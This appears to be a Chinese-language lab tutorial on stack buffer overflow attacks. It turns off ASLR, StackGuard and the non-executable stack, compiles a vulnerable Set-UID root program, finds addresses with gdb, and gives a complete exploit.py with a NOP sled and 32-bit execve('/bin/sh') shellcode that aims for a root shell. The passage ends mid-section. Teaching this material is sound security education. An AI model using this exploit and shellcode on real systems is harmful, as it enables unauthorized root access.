


# 缓冲区溢出攻击之二

## 五、环境准备

由于缓冲区溢出问题由来已久，多数操作系统已经采取了一些防御措施。为简化实验，先关闭这些防御措施，完成攻击后再将它们逐个打开，研究它们的防御原理。

### 1.关闭地址空间随机化

地址空间随机化 (address space layout randomization，ASLR) 是针对缓冲区溢出攻击的防御措施之一，ASLR 对程序内存中的一些关键数据区域进行随机化，包括栈的位置、堆和库的位置等，**<font color="red">目的是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置</font>**。

在本次实验中我们可以使用下面的命令关闭这一机制：

```shell{.line-numbers}
sudo sysctl -w kernel.randomize_va_space=0
```

### 2.有漏洞的程序

实验中的攻击目标是一个拥有 root 权限的 Set-UID 程序。**<font color="red">假如成功对该 Set-UID 程序发起缓冲区溢出攻击，注入的恶意代码一旦被执行，则将以 root 权限运行</font>**。实验使用漏洞程序 (stack.c) 作为目标程序。通过以下命令编译这个程序，并将它转换成有 root 权限的 Set-UID 程序:

```c{.line-numbers}
gcc -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
```

第一行命令编译 stack.c，第二行和第三行命令将可执行文件 stack 转换成一个以 root 为所有者的 Set-UID 程序。应当注意的是，第二行和第三行命令的顺序不能反，**因为当 chown 命令改变文件的所有者时，为了安全起见，它会首先清除 Set-UID 位，所以在运行 chown 命令之前置 Set-UID 位是徒劳的**。

下面详细介绍第一条 gcc 命令：

#### 2.1 **`-z execstack `**

在默认情况下，**<font color="blue">一个程序的栈是不可执行的，因而在栈上注入的恶意代码也是无法执行的</font>**。该保护机制称作不可执行栈 (non-executable stack)。gcc 编译器在编译程序时会给产生的二进制执行代码打上一个特殊标志，告诉操作系统它的栈是否可以执行。**<font color="blue">默认设置为不可执行，但 **`-z execstack`** 选项设置栈为可执行的</font>**。需要注意的是，这个保护机制是可以被攻破的，有一种叫作 return-to-libc 的攻击方法，它能够成功破解不可执行栈防御机制。

#### 2.2 **`-fno-stack-protector`**

此选项关闭了一个称为 StackGuard 的保护机制，它能够抵御基于栈的缓冲区溢出攻击。它的主要思想是在代码中添加一些特殊数据和检测机制，从而可以检测到缓冲区溢出的发生。**StackGuard 机制已被 gcc 编译器采纳，并且作为默认选项**，但是用 **`-fno-stack-protector`** 选项可以让编译器关闭该保护机制。

stack.c 程序的代码如下所示，其从 badfile 中读取 300 字节的数据到 str 数组中，然后把它们复制到长度为 100 个字节的 buffer 中。

```c{.line-numbers}
/* This program has a buffer overflow vulnerability. */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char* str) {
	char buffer[100];

	/* the following statement has a buffer overflow problem. */
	strcpy(buffer, str);

	return 1;
}

int main(int argc, char **argv) {
	char str[400];
	FILE* badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("returned properly\n");
	return 1;
}
```

为理解程序的行为，在 badfile 中放入一些随机内容。注意到，当文件长度小于 100 个字节时，程序可以正常运行；当文件长度大于 100 个字节时，程序会崩溃，这正是由缓冲区溢出导致的。实验过程如下:

```shell{.line-numbers}
monica@xvm:~/csapp/chapter3$ echo "aaaaaa" > badfile 
monica@xvm:~/csapp/chapter3$ ./stack
returned properly

monica@xvm:~/csapp/chapter3$ echo "aaaaaaaaaaa.....<此处省略 100 个字符>aaa" > badfile 
monica@xvm:~/csapp/chapter3$ ./stack
段错误
```

## 六、实施缓冲区溢出攻击

为此需要构造一个称为 badfile 的文件，使得当 stack.c 复制该文件内容到其缓冲区时发生溢出，从而执行注入的恶意代码，最终获得一个具有 root 权限的 shell。

### 1.寻找注入代码的内存地址

**<font color="red">为使程序跳转到恶意代码，首先需要知道恶意代码在内存中的地址</font>**。然而，很难了解恶意代码的确切位置，只知道它被复制到目标缓冲区中，但并不清楚该缓冲区的内存地址。

因为恶意代码是放在输入中的，所以可以知道它在目标缓冲区内的相对位置。**<font color="red">如果已知缓冲区的起始地址，就可以计算出恶意代码的具体位置</font>**。然而，目标程序并没有告知缓冲区的起始地址，这使得除了猜测别无他法。理论上，对于 32 位计算机而言，随机猜测的完整搜索空间大小为 $2^{32}$，但实际上要小得多。有以下两个因素使得实际的搜索空间变小了。

第一，在引入一些防御措施之前，大多数操作系统把栈 (每个进程有一个栈) 放在固定的起始地址。该地址是一个虚拟地址，对于不同的进程，它会被映射到不同的物理地址，因此，不同进程可以使用同一个虚拟地址作为栈的起始地址而不会造成冲突。

第二，大多数程序的栈并不深。假如函数调用链很长，栈会生长得较深，但这种情况多数发生在递归函数调用时。通常情况下，调用链不会很长，因此程序的栈往往是相当浅的。

结合以上两个因素，搜索空间会远小于 $2^{32}$，猜出正确的地址并不太难。

我们使用下面这个程序来打印函数中一个局部变量的地址，来验证栈的起始地址是否固定这个问题。

```c{.line-numbers}
#include <stdio.h>

void func(int* a1) {
	printf(":: a1's address is 0x%p \n", (void*) a1);
}

int main() {
	int x = 3;
	func(&x);
	return 1;
}
```

在关闭地址随机化之前和之后的情况下运行上述程序，程序执行结果如下所示：

```c{.line-numbers}
// 关闭地址随机化机制之前
monica@xvm:~/csapp/chapter3$ ./a.out 
:: a1's address is 0x0x7ffc3181eef4

monica@xvm:~/csapp/chapter3$ ./a.out
:: a1's address is 0x0x7ffcf4620e84

// 关闭地址随机化之后
monica@xvm:~/csapp/chapter3$ ./a.out
:: a1's address is 0x0x7fffffffdf64 

monica@xvm:~/csapp/chapter3$ ./a.out
:: a1's address is 0x0x7fffffffdf64 
```

### 2.提高猜测成功概率

实验中需要猜测注入代码的准确入口地址，即使猜错一个字节都会导致攻击失败。可以通过为注入代码创建多个入口点来提高猜测成功的概率。具体方法是在实际的入口点之前添加多个 NOP 指令。NOP 指令什么都不做，它只是告诉 CPU 往前走，执行下一条指令。

**<font color="red">因此只要猜中任意一个 NOP 指令的地址，就可以一直往前走，最终到达恶意代码的真正入口点</font>**。这将显著增加猜测成功的概率。下图表示了这个方法。如图 (b) 所示，通过填充 NOP 指令，为恶意代码创建了大量入口点。相比之下，在不使用 NOP 指令的情况下，恶意代码仅有一个入口点，如图 (a) 所示。

<div align="center">
    
</div>

### 3.通过调试程序找到地址

在 Set-UID 例子中，由于攻击者与目标程序运行在同一台计算机中，**因此攻击者可以获得目标程序的一份副本并进行一些研究，这样无须猜测就能得到注入代码所在的地址**。

可以使用一些调试手段来寻找栈帧的地址，然后通过栈帧地址推导出注入代码的位置。直接调试这个 Set-UID 程序，并打印 **`foo()`** 函数被调用时帧指针 %rbp 的值。

>注意: 当以普通用户身份调试一个 Set-UID 特权程序时，程序并不会以特殊权限运行，因此在调试器中直接改变程序行为并不能获得任何权限。

在本实验中，由于拥有目标程序 stack.c 的源代码，因此可以重新编译它，加入调试信息，我们使用如下 gcc 命令进行调试：

```shell{.line-numbers}
gcc -z execstack -fno-stack-protector -g -o -stack_gdb stack.c -m32
```

除了关闭之前提过的两个保护机制以外，上述命令改用 -g 选项编译程序，因此调试信息被添加到二进制文件中。另外在运行程序之前，需要创建一个 badfile 文件，如下所示：

```c{.line-numbers}
$gcc -z execstack -fno-stack-protector -g -o -stack_gdb stack.c
$touch badfile
$gdb stack_gdb
(gdb) b foo
Breakpoint 1 at 0x11b9: file stack.c, line 10.
(gdb) run
Starting program: /home/monica/csapp/chapter3/stack_gdb 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, foo (str=0xbfffeb1c 'a' <repeats 157 times>, "\n") at stack.c:10
warning: Source file is more recent than executable.
10	
(gdb) p $ebp
$1 = (void *) 0xbfffeaf8
(gdb) p &buffer
$3 = (char (*)[100]) 0xbfffea8c
(gdb) p/d 0xbfffeaf8 - 0xbfffea8c
$4 = 108
```

在 gdb 中，通过 b foo 命令在 foo() 函数处设置一个断点，接着用 run 命令来运行程序。当进入 foo 函数的断点时，可以使用 gdb 的 p 指令 (p 指令默认用十六进制打印，p/d 表示用十进制打印) 来打印帧指针 rbp 的值以及 buffer 的地址。

从以上的执行结果可以看出，帧指针 %ebp 的值是 **`0xbfffeaf8`**。因此返回地址保存在 **`0xbfffeaf8+4`** 中，并且第一个 NOP 指令在 **`0xbfffeaf8+8`**。因此，可以将 **`0xbfffeaf8+8`** 作为恶意代码的入口地址，把它写入返回地址字段中。

由于输入将被复制到 buffer 中，为了让输入中的返回地址字段准确地覆盖栈中的返回地址区域，**需要知道栈中 buffer 和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置**。

从调试信息可以轻松地获知 buffer 的起始地址，然后计算出从 rbp 到 buffer 起始处的距离。通过计算，得到的结果是 108，因此返回地址区域到 buffer 起始处的距离就是 112。

### 4.构造输入文件

现在构造 badfile 的内容，由于 badfile 包含难以使用文本编辑器输入的二进制数据， 因此编写一个 Python 程序 (命名为 exploit.py) 来产生 badfile，badfile 文件的结构如下所示：

<div align="center">
    
</div>

下面是 exploit.py 文件的源代码：

```python{.line-numbers}
import sys

shellcode = (
    "\x31\xc0"      # xorl  %eax,%eax
    "\x50"          # pushl %eax
    "\x68""//sh"    # pushl $0x68732f2f
    "\x68""/bin"    # pushl $0x6e69622f
    "\x89\xe3"      # movl  %esp,%ebx
    "\x50"          # pushl %eax
    "\x53"          # pushl %ebx
    "\x89\xe1"      # movl  %esp,%ecx
    "\x99"          # cdq
    "\xb0\x0b"      # movb  $0x0b,%al
    "\xcd\x80"      # int   $0x80
).encode('latin-1')

# Fill the content with NOP
content = bytearray(0x90 for i in range(300))

# Put the shellcode at the end
start = 300 - len(shellcode)
content[start:] = shellcode

# Put the address at the beginning
ret = 0xbfffeaf8 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')

# Write the content to a file
file = open("badfile", "wb")
file.write(content)
file.close()
```

#### 4.1 构造 shellcode 的问题

在介绍上面的 shellcode 之前，我们先用 C 语言编写一段恶意代码，下面的代码通过 execve() 系统调用执行一个 shell 程序：

```c{.line-numbers}
#include <stddef.h>

void main() {
    char* name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

一个简单的想法是把以上代码编译成二进制文件，然后保存在输入文件 badfile 中，之后用 main() 函数的地址填充返回地址区域。这样一来，当目标程序返回时，它将跳转到上述代码的入口。然而，这个想法是行不通的，有以下几点原因。

**（1）加载器问题**

一个正常的程序在运行之前需要被加载进内存，并且配置好它的运行环境。这些工作由操作系统加载器 (OS loader) 执行，它负责配置内存 (例如栈和堆)，把程序复制进内存，调用动态链接器链接需要的库函数，等等。所有的初始化工作完成之后，main() 函数才会被触发。如果之前的任一步骤缺失，程序将无法正确运行。**<font color="red">在缓冲区溢出攻击中，恶意代码并不是由操作系统加载的，而是直接通过内存复制载入的。因此，由于重要的初始化步骤缺失，即使能够正确地跳转到 main() 函数的位置，也无法运行这个 shell 程序</font>**。

>加载器可以把执行文件从外存加载到内存中并执行，加载器首先创建一个内存映像，在 Linux 中，此内存映像包括栈、运行时堆、共享库等。然后根据段头部表，把目标文件拷贝到内存的数据和代码段中。然后，加载器跳转到程序入口点（即符号 _start 的地址），执行启动代码（startup code）。

**（2）代码中的 0**

字符串复制 (例如使用 strcpy() 函数) 在遇到 0 时会停止。当把上面的 C 语言代码编译成为二进制代码后，二进制代码中至少会出现三处 0：

- 字符串 "/bin/sh" 末尾有一个 0；
- 程序中有两个 NULL，也是 0；
- name[0] 中的 0 是否转化为二进制中的 0 取决于编译环境；

#### 4.2 构造 shellcode 的准备

鉴于上面的问题，不能使用由 C 语言程序生成的二进制代码作为恶意代码，需要直接用汇编语言来编写。**为运行 shell 程序编写的汇编代码称作 shellcode。shellcode 最核心的部分是使用 execve() 系统调用来执行 "/bin/sh"**。

Linux 32 位的系统调用时通过 int 80h 来实现的，%eax 寄存器中为调用的功能号，%ebx、%ecx、%edx、%esi 等等寄存器则依次为参数。execve 函数的调用功能号为 11。execve 函数的函数原型如下所示：

```c{.line-numbers}
#include <unistd.h>
/* never returns on success; returns -1 on error */
int execve(const char* pathname, char* const argv[], char* const envp[]);
```

- 参数 **`pathname`**：包含准备载入当前进程空间的新程序的路径名，既可以是绝对路径（冠之以/），也可以是相对于调用进程当前工作目录（current working directory）的相对路径；
- 参数 **`argv`**：指定了传递给新进程的命令行参数，是由字符串指针所组成的列表，以 NULL 结束。**`argv[0]`** 的值则对应于命令名，通常情况下，该值与 pathname 中的 basename（路径名的最后部分）相同；
- 参数 **`envp`**：指定了新程序的环境列表，也是由字符串指针组成的列表，以 NULL 结束，所指向的字符串格式为 name=value；

因此为了使用 execve 函数这个系统调用，需要设置以下 4 个寄存器：

- eax 寄存器：必须保存 11，11 是 execve() 的系统调用号；
- ebx 寄存器：**<font color="red">必须保存命令字符串的地址 (如 **`/bin/sh`**)</font>**；
- ecx 寄存器：**<font color="red">必须保存参数数组的地址</font>**，在这个例子中，数组的第一个元素指向字符串 **`/bin/sh`**，第二个元素是 0，标志着数组的末尾；
- edx 寄存器：**<font color="red">必须保存想要传给新程序的环境变量的地址</font>**。可以将其设成 0，因为不想传递任何环境变量；

设置这 4 个寄存器的难点在于数据的准备以及如何找到数据地址，并且确保数据中没有 0。首先，需要知道字符串 /bin/sh 的地址才能设置 ebx 的值。为了避免猜测，**一个通用的方法是把字符串动态地压入栈中，然后通过读取 esp 寄存器获知字符串的地址，因为 esp 总是指向栈顶的**。

其次，为了确保完整的代码被复制进目标缓冲区，代码中不能出现 0，这是因为一些函数把 0 视作数据复制源的结尾。例如，为了把 0 赋值到寄存器 eax 中，如果使用 mov 指令，将导致 0 出现在代码中。可以使用 **`xorl %eax，%eax`** 让寄存器与自身做异或运算，使寄存器的值变成 0。这条指令中没有 0。

#### 4.3 构造 shellcode


